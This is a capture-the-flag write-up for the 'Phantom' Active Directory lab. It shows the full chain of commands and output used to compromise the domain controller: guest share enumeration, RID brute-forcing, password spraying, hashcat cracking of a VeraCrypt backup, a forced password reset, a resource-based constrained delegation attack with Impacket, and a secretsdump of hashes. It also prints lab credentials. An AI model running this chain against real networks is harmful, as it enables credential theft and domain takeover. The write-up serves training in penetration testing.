



## Entry

```sh
➜  Phantom nxc smb 10.10.96.47
SMB         10.10.96.47     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
```

alright we have Guest access so lets lists shares
### shares
```sh
➜  Phantom nxc smb 10.10.96.47 -u Guest -p '' --shares
SMB         10.10.96.47     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
SMB         10.10.96.47     445    DC               [+] phantom.vl\Guest: 
SMB         10.10.96.47     445    DC               [*] Enumerated shares
SMB         10.10.96.47     445    DC               Share           Permissions     Remark
SMB         10.10.96.47     445    DC               -----           -----------     ------
SMB         10.10.96.47     445    DC               ADMIN$                          Remote Admin
SMB         10.10.96.47     445    DC               C$                              Default share
SMB         10.10.96.47     445    DC               Departments Share                 
SMB         10.10.96.47     445    DC               IPC$            READ            Remote IPC
SMB         10.10.96.47     445    DC               NETLOGON                        Logon server share 
SMB         10.10.96.47     445    DC               Public          READ            
SMB         10.10.96.47     445    DC               SYSVOL                          Logon server share 
```
we found .eml file
### eml -> pdf
```sh
smb: \> ls
  .                                   D        0  Thu Jul 11 11:03:14 2024
  ..                                DHS        0  Sun Jul  7 04:39:30 2024
  tech_support_email.eml              A    14565  Sat Jul  6 12:08:43 2024

                6127103 blocks of size 4096. 2097626 blocks available
smb: \> get tech_support_email.eml 
getting file \tech_support_email.eml of size 14565 as tech_support_email.eml (52.9 KiloBytes/sec) (average 52.9 KiloBytes/sec)
```


its seems like there is data of pdf file which is encoded base64

```sh
➜  Phantom base64 -d welcome_template.pdf.b64 > welcome_template.pdf
➜  Phantom mupdf welcome_template.pdf
warning: ICC support is not available
```



nice we got password lets grab username list with

```sh
➜  Phantom nxc smb 10.10.96.47 -u Guest -p '' --rid-brute
[SNIP]
SMB         10.10.96.47     445    DC               1118: PHANTOM\bbarnes (SidTypeUser)
SMB         10.10.96.47     445    DC               1119: PHANTOM\cjones (SidTypeUser)
SMB         10.10.96.47     445    DC               1120: PHANTOM\agarcia (SidTypeUser)
SMB         10.10.96.47     445    DC               1121: PHANTOM\ppayne (SidTypeUser)
SMB         10.10.96.47     445    DC               1122: PHANTOM\ibryant (SidTypeUser)
SMB         10.10.96.47     445    DC               1123: PHANTOM\ssteward (SidTypeUser)
SMB         10.10.96.47     445    DC               1124: PHANTOM\wstewart (SidTypeUser)
SMB         10.10.96.47     445    DC               1125: PHANTOM\vhoward (SidTypeUser)
SMB         10.10.96.47     445    DC               1126: PHANTOM\crose (SidTypeUser)
SMB         10.10.96.47     445    DC               1127: PHANTOM\twright (SidTypeUser)
SMB         10.10.96.47     445    DC               1128: PHANTOM\fhanson (SidTypeUser)
SMB         10.10.96.47     445    DC               1129: PHANTOM\cferguson (SidTypeUser)
SMB         10.10.96.47     445    DC               1130: PHANTOM\alucas (SidTypeUser)
SMB         10.10.96.47     445    DC               1131: PHANTOM\ebryant (SidTypeUser)
SMB         10.10.96.47     445    DC               1132: PHANTOM\vlynch (SidTypeUser)
SMB         10.10.96.47     445    DC               1133: PHANTOM\ghall (SidTypeUser)
SMB         10.10.96.47     445    DC               1134: PHANTOM\ssimpson (SidTypeUser)
SMB         10.10.96.47     445    DC               1135: PHANTOM\ccooper (SidTypeUser)
SMB         10.10.96.47     445    DC               1136: PHANTOM\vcunningham (SidTypeUser)
```
and fresh list
### fresh-username-list
```sh
➜  Phantom cat ridusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2
Administrator
Guest
krbtgt
DC$
svc_sspr
rnichols
pharrison
wsilva
elynch
nhamilton
lstanley
bbarnes
cjones
agarcia
ppayne
ibryant
ssteward
wstewart
vhoward
crose
twright
fhanson
cferguson
alucas
ebryant
vlynch
ghall
ssimpson
ccooper
vcunningham
➜  Phantom cat ridusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2 > users.txt
```

and do password spray

```sh
➜  Phantom nxc smb DC.phantom.vl -u users.txt -p 'Ph4nt0m@5t4rt!' --continue-on-success

SMB         10.10.96.47     445    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt! 
```

ibryant : Ph4nt0m@5t4rt!
### bloodhound
```sh
➜  Phantom nxc ldap DC.phantom.vl -u ibryant -p 'Ph4nt0m@5t4rt!'    
SMB         10.10.96.47     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
LDAP        10.10.96.47     389    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt! 
➜  Phantom nxc ldap DC.phantom.vl -u ibryant -p 'Ph4nt0m@5t4rt!' --bloodhound --dns-server 10.10.96.47 --collection All
SMB         10.10.96.47     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
LDAP        10.10.96.47     389    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt! 
LDAP        10.10.96.47     389    DC               Resolved collection methods: container, session, trusts, rdp, localadmin, acl, objectprops, psremote, dcom, group
LDAP        10.10.96.47     389    DC               Done in 00M 15S
LDAP        10.10.96.47     389    DC               Compressing output into /root/.nxc/logs/DC_10.10.96.47_2025-03-19_224517_bloodhound.zip
```

but nothing interesting on bloodhound yet.

### other shares
```sh
➜  Phantom nxc smb DC.phantom.vl -u ibryant -p 'Ph4nt0m@5t4rt!' --shares             
SMB         10.10.96.47     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
SMB         10.10.96.47     445    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt! 
SMB         10.10.96.47     445    DC               [*] Enumerated shares
SMB         10.10.96.47     445    DC               Share           Permissions     Remark
SMB         10.10.96.47     445    DC               -----           -----------     ------
SMB         10.10.96.47     445    DC               ADMIN$                          Remote Admin
SMB         10.10.96.47     445    DC               C$                              Default share
SMB         10.10.96.47     445    DC               Departments Share READ            
SMB         10.10.96.47     445    DC               IPC$            READ            Remote IPC
SMB         10.10.96.47     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.96.47     445    DC               Public          READ            
SMB         10.10.96.47     445    DC               SYSVOL          READ            Logon server share 
```

now we have read access on Departments Share

```sh
➜  Phantom nxc smb DC.phantom.vl -u ibryant -p 'Ph4nt0m@5t4rt!' -M spider_plus 
➜  Phantom cat /tmp/nxc_hosted/nxc_spider_plus/10.10.96.47.json
        "IT/Backup/IT_BACKUP_201123.hc": {
            "atime_epoch": "2024-07-06 14:04:14",
            "ctime_epoch": "2024-07-06 14:04:14",
            "mtime_epoch": "2024-07-06 14:04:34",
            "size": "12 MB"
```

we have .hc file here lets just download it 
.png>)

### install veracrypt

```sh
wget https://launchpad.net/veracrypt/trunk/1.26.7/+download/veracrypt-1.26.7-Debian-12-amd64.deb
➜  Phantom sudo dpkg -i /home/elliot/Downloads/veracrypt-1.26.7-Debian-12-amd64.deb 
Selecting previously unselected package veracrypt.
(Reading database ... 492087 files and directories currently installed.)
Preparing to unpack .../veracrypt-1.26.7-Debian-12-amd64.deb ...
Unpacking veracrypt (1.26.7-1) ...
Setting up veracrypt (1.26.7-1) ...
Processing triggers for kali-menu (2025.1.1) ...
Processing triggers for desktop-file-utils (0.28-1) ...
Processing triggers for shared-mime-info (2.4-5+b1) ...
➜  Phantom veracrypt --version
```
noice lets try to extract it



but its asking password so lets just try to crack it with special list

```sh
➜  Phantom cat passwords 
phantom
Phantom
Ph4ntom
Ph4nt0m
➜  Phantom cat phantom.rule 
$2 $0 $2 $3 $!
$2 $0 $2 $3 $@
$2 $0 $2 $3 $#
$2 $0 $2 $3 $$
$2 $0 $2 $3 $%
$2 $0 $2 $3 $^
$2 $0 $2 $3 $&
$2 $0 $2 $3 $*
$2 $0 $2 $3 $(
$2 $0 $2 $3 $)
$2 $0 $2 $3 $-
$2 $0 $2 $3 $=
$2 $0 $2 $3 $+
```
and 
```sh
➜  Phantom hashcat -m 13721 IT_BACKUP_201123.hc passwords -r phantom.rule 
IT_BACKUP_201123.hc:Phantom2023!
```
okey in vyos_backup.tar.gz/config/config.boot we have 

password gB6XTcqVP5MlP7Rc

```sh
➜  Phantom nxc smb DC.phantom.vl -u users.txt -p 'gB6XTcqVP5MlP7Rc' --continue-on-success       

SMB         10.10.96.47     445    DC               [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc 
```
noice we already have winrm shell here

```sh
➜  Phantom nxc winrm DC.phantom.vl -u svc_sspr -p 'gB6XTcqVP5MlP7Rc'                      
WINRM       10.10.96.47     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:phantom.vl)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.96.47     5985   DC               [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc (Pwn3d!)
```

## Privileges


lets change password of Crose and use him to allowedtoACT
### ForceChangePassword

```sh
➜  autobloodyAD git:(main) bloodyAD --host DC.phantom.vl -d phantom.vl -u svc_sspr -p gB6XTcqVP5MlP7Rc set password crose NewPassword123

[+] Password changed successfully!
```

### AddAllowedToAct
Whatttttttt
```sh
➜  Phantom nxc ldap DC.phantom.vl -u svc_sspr -p 'gB6XTcqVP5MlP7Rc' -M maq
SMB         10.10.96.47     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
LDAP        10.10.96.47     389    DC               [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc 
MAQ         10.10.96.47     389    DC               [*] Getting the MachineAccountQuota
MAQ         10.10.96.47     389    DC               MachineAccountQuota: 0
```

we cannot add computer but i found this [article](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd) work great!!!!

 Resource-based constrained The Hacker Recipes.png>)

#### Obtain a TGT through overpass-the-hash to use RC4
```sh
➜  Phantom python3 /opt/impacket/examples/getTGT.py -hashes :$(pypykatz crypto nt 'NewPassword123') phantom.vl/crose
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in crose.ccache
```

#### Obtain the TGT session key
```sh
➜  Phantom python3 /opt/impacket/examples/describeTicket.py crose.ccache | grep 'Ticket Session Key'
[*] Ticket Session Key            : 42046f1ee64b01347c4ae55166af3358
```

#### Change the controlledaccountwithoutSPN's NT hash with the TGT session key
```sh
➜  Phantom python3 /opt/impacket/examples/changepasswd.py -newhashes :909966db043b51920ee3a5156e154f8b phantom.vl/crose:'NewPassword123'@dc.phantom.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of phantom.vl\crose
[*] Connecting to DCE/RPC as phantom.vl\crose
[*] Password was changed successfully.
```

#### Obtain the delegated service ticket through S4U2self+U2U, followed by S4U2proxy (the steps could be conducted individually with the -self and -additional-ticket flags)
```sh
➜  Phantom python3 /opt/impacket/examples/rbcd.py -delegate-from 'crose' -delegate-to 'DC$' -dc-ip 10.10.96.47 -action 'write' 'phantom.vl'/'crose' -hashes :909966db043b51920ee3a5156e154f8b
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] crose can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     crose        (S-1-5-21-4029599044-1972224926-2225194048-1126)
```

#### Obtain the delegated service ticket through S4U2self+U2U, followed by S4U2proxy (the steps could be conducted individually with the -self and -additional-ticket flags)
```sh
➜  Phantom python3 /opt/impacket/examples/getST.py -u2u -impersonate Administrator -spn 'cifs/dc.phantom.vl' -k  -no-pass phantom.vl/'crose'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating Administrator
[*] Requesting S4U2self+U2U
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.phantom.vl@PHANTOM.VL.ccache
➜  Phantom
```
and dump everything
```sh
➜  Phantom python3 /opt/impacket/examples/secretsdump.py -k dc.phantom.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xa08cda6a38d423ba98b6f79cf6c7880f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:https://www.youtube.com/watch?v=86oy2_Rzynw:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash
```